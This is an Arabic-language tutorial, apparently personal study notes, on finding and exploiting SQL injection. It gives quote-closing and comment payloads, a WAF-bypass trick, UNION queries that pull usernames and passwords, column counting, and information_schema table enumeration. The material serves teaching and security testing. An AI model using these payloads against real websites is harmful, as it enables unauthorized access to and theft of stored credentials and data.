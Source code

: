 ```sql
select * from books where year=2020;
```

```sql
select * from books where year=2020 or year=2017;
```

##### لو فى كذا كونديشن - AND هى اللى بتتنفذ الاول وبعد كده OR حتى لو OR مكتوبه الاول 
```sql
select * from books where year=2020 AND sales=1000;
```


كل داتا بيز فيها datatype مختلفة - كل datatype بيتعملها presentation بطريقة مختلفة.

| **ارقام**                                                                                                                          | **مش ارقام**                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| بتكون بنسبة كبيرة من غير qout                                                                                                      | هنا لازم يكون فى quote                                                                          |
| يعنى زى الامثلة اللى مكتوبه فى الكويري فوق                                                                                         | `select * from books where author='islam';`                                                     |
| وده هيخلى اى عملية حسابية هتتكتب جوا الكود تتنفذ بالفعل<br>`select * from books where year=2020-20;`<br>الكويري دى هيخلى year=2000 | فى MariaDB - MySql<br>لو جينا عند الاسترينج وكتبناه كده <br>`'is' 'lam'`<br>هيعملها concatenate |
| هنا هنستفاد بالموضوع ده واحنا بنتيست ع الثغرة                                                                                      | فى PostgreSQL - Oracle<br>عشان يتعملها concatenate بنعمل كده <br>`'is'`\|\|`'lam'`              |
|                                                                                                                                    | فى SQLserver - microsoft sql server<br>بتكون كده `'is'+'lam'`                                   |

كل اللى فى الجدول ده بنجربه علشان نـuvt هل فى sql injection ولا لاء 
وبردو هنعرف نوع الداتا بيز من خلال طريقة الــ concatenate اللى هتتقبل 
 
 منجحش الكلام ده ؟ -- يبقى هنتجه الى AND, OR
 بس نخلى بالنا واحنا بنتعامل مع الاسترينج ان هيكون فى سينجل او دوبل كوت فى الاخر 
 ف هنا لازم نستخدم الكومنت او نظبط الكويرى بتاعتنا ونحاول نقفل السينجل او الدوبل كوت اللى فى الاخر 
 كده مثلا 
```sql
--        ' AND 1='1
 select * from books where author='islam' AND 1='1';
```
هنا حطينا سينجل كوت قبل الواحد الاخير عشان يقفل الكوت بتاعت الكويري الاساسيه 
ودى اللى بنعتمد عليها فى الاول علشان لو الكويرى معقده وليها تكمله منعملش كومنت لحاجه احنا محتاجنها علشان الكويري تشتغل بدون اخطاء
 
والكومنت فى MySql 
 Single Line: `-- xxxxxxxxx`
 Multiline: `/* xxxxxxxxxxxxxx */`
 وفى بعض الاوقات بنستخدم Multiline Comment  على انه Space `/**/` علشان نعدى من WAF

---
### ازاى نــ Exploit SQL injection
### استخدام UNION
اللى لازم نعرفه عن union قبل ما نستخدمها هى ان 
1. لازم عدد الأعمدة في الاستعلام الأول (قبل UNION) يساوي عدد الأعمدة في الاستعلام الثاني. لو مش متساوي، الاستعلام هيفشل.
2. لازم أنواع البيانات تكون متوافقة (مثلاً title و username لازم يكونوا نصوص لو الاستعلام هيشتغل).

### مثال :-
**هنفترض إن فيه موقع فيه حقل بحث**:
- لما بتكتب كلمة في البحث (مثلاً search_term)، الموقع بيعمل استعلام زي:
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%';
```

هنجرب نستخدم union 
```sql
search_term' UNION SELECT username, password FROM users --
```
ف هنا الكويري هتتحول لكده لو فعلا مكان السيرش ده فيه ثغره 
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%' 
UNION 
SELECT username, password FROM users --
```
وبردو الكويرى مش هتشتغل اللا لو نوع الداتا اللى فى username نفس نوع الداتا اللى فى item_type
و نوع الداتا اللى فى  password نفس نوع الداتا اللى فى title

### تغير نوع الداتا 
طيب ولو فرضنا ان نوع الداتا فى password معمول INT 
ممكن نعمل حاجه زى كده ونحول نوع الداتا اللى موجود علشان الكويري تتنفذ
```sql
' UNION SELECT username, CAST(password AS CHAR) FROM users --
```

---
### معرفة عدد الاعمده
#### 1.  **طريقة ORDER BY**:

- **الفكرة**:
    - أمر ORDER BY بيُستخدم لترتيب النتايج بناءً على عمود معين. لو حاولت تستخدم ORDER BY برقم عمود أكبر من عدد الأعمدة الموجودة في الاستعلام، قاعدة البيانات هترجع خطأ.
    - بتزوّد الرقم تدريجيًا لحد ما تلاقي الرقم اللي يسبب خطأ، وبالتالي تعرف إن عدد الأعمدة هو الرقم اللي كان شغال قبل الخطأ.
    - زى كده `' ORDER BY 1 --` // `' ORDER BY 2 --` // `' ORDER BY 3 --` 

#### 2. **طريقة UNION SELECT مع قيم وهمية**:

- **الفكرة**:
    - تحقن استعلام UNION SELECT مع عدد أعمدة زيادة تدريجيًا، وتستخدم قيم وهمية (زي 1, 2, 3, إلخ) عشان تتأكد إن الاستعلام بيشتغل.
    - لو عدد الأعمدة صح، الاستعلام هينجح وهيظهر نتايج. لو العدد غلط، هيحصل خطأ أو مافيش نتايج.

`' UNION SELECT 1 --` 

لو فشل هنجرب
`' UNION SELECT 1, 2 --` 

ولو عرفت إن الأعمدة بتتعامل مع نصوص (strings) 
جرب تستخدم قيم زي 'test1', 'test2'  
بدل الأرقام وهكذا لغاية ما يطلعلنا قيمة وبكده نكون عرفنا عدد الاعمده 


---

### معرفة اسامى الجداول واسامى الاعمده:
عندنا حاجه اسمها #information_schema دى قاعدة بيانات افتراضية موجودة في أنظمة إدارة قواعد البيانات
بيكون فيها بيانات كتير زى جميع اسامى ( الجداول - الداتابيز - الاعمده اللى جوا الجداول )

واللى يهمنا فى الموضوع ده هو جدولين فى الداتابيز دي 
الاول وهو information_schema.tables
والثانى information_schema.columns

بعد ما عرفنا عدد الاعمده بالطريقة اللى فوق هنبتدى نشوف الاسامى بتاعة جداول الداتا بيز اللى احنا فيها 
ولازم الكويرى اللى هنحطها كــ بيلود تكون بنفس عدد الاعمده اللى موجوده فى الاستعلام الاساسي بتاع الموقع 

والكويرى هتكون كالاتى 
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
``` 

الجزء ده table_schema = DATABASE هو اللى بيحددلنا انه يبحث فى نفس الداتا بيز اللى احنا فيها 

هي اصلا الـ information_schema دى قاعدة بيانات الجداول اللى فيها من ضمنها جدول
اسمه tables وده اللى بيكون متجمع فيه كل الجداول اللى فى كل الداتا بيز اللى على السيرفر   
وده بندخله عن طريق الجزء ده information_schema.tables 
وبعد كده بنحدد ان العمود اللى اسمه table_schema واللى هو بيبقى فى اسماء الداتا بيز 
يعرضلنا فقط اسامى الجداول اللى فى الداتا بيز الحاليه.

لازم بقا ندمج الكويرى دى بعد معرفة عدد الاعمدة اللى موجوده فى الاستعلام الاساسى 
وليكن مثلا 3 اعمده .. يبقى paylod هتكون كده 

```sql
search_term' UNION SELECT table_name, 'test1', 'test2' FROM information_schema.tables WHERE table_schema = DATABASE() --
```

لو قاعدة البيانات الحالية فيها الجداول Books, employees, user_system 
النتيجة هتكون شكلها كده:
```
Book        | test1 | test2
employees   | test1 | test2
user_system | test1 | test2
orders      | test1 | test2
```

